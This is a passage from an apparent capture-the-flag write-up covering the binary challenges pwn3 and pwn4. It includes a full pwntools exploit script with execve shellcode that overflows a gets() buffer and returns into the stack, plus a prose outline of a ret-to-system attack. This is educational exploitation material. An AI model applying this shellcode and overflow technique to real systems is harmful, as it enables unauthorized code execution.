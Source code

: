 ```python
0x080484fe <+51>:	lea    eax,[ebp-0xee]
0x08048504 <+57>:	push   eax
0x08048505 <+58>:	call   0x8048380 <gets@plt>
```
##### EXPLOIT
As we can see that NX is disabled, the stack is a executable section of memory. We can write opcodes on the stack and then overwrite the return address with the address given to us by the program. So the shellcode is executed and shell is pwned. I used pwntools to receive the leak and add it into my exploit.
```python
from pwn import *
 
shellcode="\x31\xdb\x6a\x17\x58\xcd\x80\xf7\xe3\xb0\x0b\x31\xc9\x51\x68\x2f\x2f\x 73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
junk="a"*(242-len(shellcode))
 
s=process('./pwn3')
\#s=remote('pwn.ctf.tamu.edu',4323)
s.recvuntil('0x')
b=s.recvuntil('!')
  
b=b.translate(None,'!')
 
print b
b = "0x"+ b
print b
t=p32(int(b,16))
 
s.sendline(shellcode + junk + t)
s.send("ls" + "\n")
s.recv(20)
s.send("cat flag.txt" + "\n")
s.recv(100)
 
s.interactive()
```

<hr>
## pwn4

`32-bit executable, dynamically linked, not stripped`

Here we have a menu driven program that has bigger code but the vulnerability is again a gets() function that reads our the choice. 

debugging in GDB... 
```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
We can control the flow of the program by overwriting the return address. We can see PLT addresses of system() as it is used in the code. To pwn the shell we need to call system with a pointer to "/bin/sh" as the argument.
